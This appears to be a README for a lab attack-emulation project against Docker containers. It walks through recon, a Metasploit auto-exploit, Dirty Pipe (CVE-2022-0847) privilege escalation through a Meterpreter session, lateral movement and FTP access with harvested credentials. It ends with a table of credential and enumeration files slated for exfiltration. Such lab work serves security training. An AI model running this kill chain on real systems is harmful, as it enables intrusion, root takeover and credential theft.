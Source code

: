 # Recon
```bash
#Reconnaissance
#copy recon.sh into k1
docker cp /vagrant/Attacks/Recon/recon.sh k1:/
docker exec k1 chmod +x recon.sh
#Run the script
docker exec k1 ./recon.sh
```

# Execution
```bash
# Execution
cd /vagrant/Attacks/Execution
# copy exploit to metasploit framework directory
docker cp 50531.rb k1:/usr/share/metasploit-framework/modules/exploits/linux/
# run msfconsole with the resource script to auto exploit with the set configurations
docker exec -it k1 msfconsole -r MsfAutoExploit.rc
```

# Privilege Escalation
```bash
# All commands shall be executed inside the Meterpreter session established in Execution phase
# Upload dirtypipe.sh and CVE-2022-0847.c to /tmp directory
upload dirtypipe.sh /tmp
upload CVE-2022-0847.c /tmp

# Drop into shell
shell
# Set execute permission 
chmod +x /tmp/dirtypipe.sh
# Execute dirtypipe.sh to get root shell
cd /tmp && ./dirtypipe.sh
```

# Discovery
```bash
cd /vagrant/Attacks/Discovery
# Setup discovery in vagrant host
./discovery_setup.sh

# During this stage, attacker should have root in S1
docker exec -it s1 bash
./discovery.sh # Run this in s1 root shell --> script is located in root / dir
```

# Lateral Movement
```bash
cd /vagrant/Attacks/Lateral_Movement
./lateral_movement_setup.sh

# During this stage, attacker should have root in S1
docker exec -it s1 bash
./lateral_movement.sh # Run this in s1 root shell --> script is located in root / dir
```

# Exfiltration
```bash


```

# Credential Access
```bash
cd /vagrant/Attacks/Credential_Access
# Access S2 FTP Server with new found credentials from suiteCRM
python3 Auto_FTP.py <target> <port> <username> <password>
```

Files to be exfiltrated in S1:

| s/n | Filename            | Machine |
| --- | ------------------- | ------- |
| 1   | /networkenum.txt    | s1      |
| 2   | /ips_sorted.txt     | s1      |
| 3   | /traceroute.txt     | s1      |
| 4   | /internal_host_scan | s1      |
| 5   | /users.txt          | s1      |
| 6   | /db_users.txt       | s1      |
| 7   | /user_creds.txt     | s1      |
| 8   | /ps_aux.txt         | s1      |
| 9   | /local_groups.txt   | s1      |
| 10  | /sysenum.txt        | s1      | 
